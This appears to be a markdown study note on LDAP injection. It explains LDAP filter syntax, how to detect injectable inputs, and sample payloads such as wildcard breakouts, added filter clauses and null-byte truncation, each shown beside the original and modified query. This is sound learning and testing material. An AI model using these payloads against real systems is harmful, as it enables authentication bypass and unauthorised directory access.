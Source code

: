 ```yaml
---
layout: page
title:  "LDAP injections"
permalink: "ldap-injections.html"
tags: [security, web, injections]
summary: ""
---
```

## Introduction
* LDAP: Lightweight Directory Access Protocol
* Used to access directory services over a network. Directory: hierarchically organized data store
* Examples:
  * Microsoft ADAM (Active Directory Application Mode)
  * OpenLDAP
* Commonly used in intranet-base web applications
* Simple match conditions on the value of one attribute: `(username=greg)`
* Disjunctive queries: `(|(cn=searchterm)(sn=searchterm)(ou=searchterm))`
* Conjunctive queries: `(&(username=greg)(password=dumbpassword))`
* Not possible to retrieve different attributes than the query was intended to retrieve
* Rarely return informative error message: blind LDAP injection


## Detection
* Available informations: results returned, HTTP 500 error
* Differentiating between SQL and LDAP: wildcard character `*`
* Number of closing brackets: `)))))))))`. May break something else, so need to make sure we're dealing with LDAP before
* `cn` attribute (supported on all LDAP implementations):
  * `)(cn=*`
  * `*))(|(cn=*`
  * `*))%00`


## Injections
* Wildcard: `)(department=*)`
```
(|(department=London searchterm)(departement=Reading searchterm))       # Original query
(|(department=London)(department=*)(department=Reading)(department=*))  # Modified query
```
* If multiple search filters allowed (OpenLDAP for example): `*))(&(username=searchterm`
```
(&(username=searchterm)(department=London*))                 # Original query
(&(username=*))(&(username=searchterm)(department=London*))  # Modified query
```

* Null bytes comments: `*))%00`
```
(&(username=searchterm)(department=London*))      # Original query
(&(username=*)) [NULL byte](department=London*))  # Modified query. Everything after the null byte is ignored
```
